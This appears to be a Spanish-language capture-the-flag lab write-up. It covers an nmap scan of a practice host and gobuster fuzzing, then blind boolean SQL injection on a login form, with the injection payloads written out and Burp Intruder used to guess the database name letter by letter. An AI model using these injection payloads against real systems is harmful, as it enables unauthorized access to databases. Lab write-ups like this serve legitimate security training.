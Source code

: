 ### nmap
```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 20:02 EST
Nmap scan report for 10.10.64.85
Host is up (0.18s latency).
Not shown: 64902 closed tcp ports (reset), 631 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b0:c5:69:e6:dd:6b:81:0c:da:32:be:41:e3:5b:97:87 (RSA)
|   256 6c:65:ad:87:08:7a:3e:4c:7d:ea:3a:30:76:4d:04:16 (ECDSA)
|_  256 2d:57:1d:56:f6:56:52:29:ea:aa:da:33:b2:77:2c:9c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.21 seconds
```

### Ports: 22/ssh - 80/http

### Enumeración del puerto 80
vamos a intentar hacer una inyección sqli
![[Pasted image 20240204210908.png]]

![[Pasted image 20240204211038.png]]
parece que la pagina esta en mantenimiento. 

vamos a probar otras inyecciones diferentes
![[Pasted image 20240204213231.png]]

![[Pasted image 20240204213305.png]]

### Fuzzing con gobuster

![[Pasted image 20240204213332.png]]
parece que no tenemos ningún directorio que sea de ayuda. 

### sqli

```python
	'+and+substring(database(),1,1)="a"+#
```

vamos a interceptar una peticion con burpsuite
![[Pasted image 20240204220002.png]]

intruder
![[Pasted image 20240204220113.png]]

configuramos el payloads
![[Pasted image 20240204220220.png]]
obtenemos como respuesta 

```python
	username=kitty'+and+substring(database(),1,1)="m"+#&password=kitty
```

para la segunda posición obtenemos la letra "y"
![[Pasted image 20240204222627.png]]

para el tercer posición obtenemos la letra "w"
![[Pasted image 20240204223225.png]]
tenemos que hacer esto cambiando la posición hasta conseguir información sobre el nombre de la base de datos

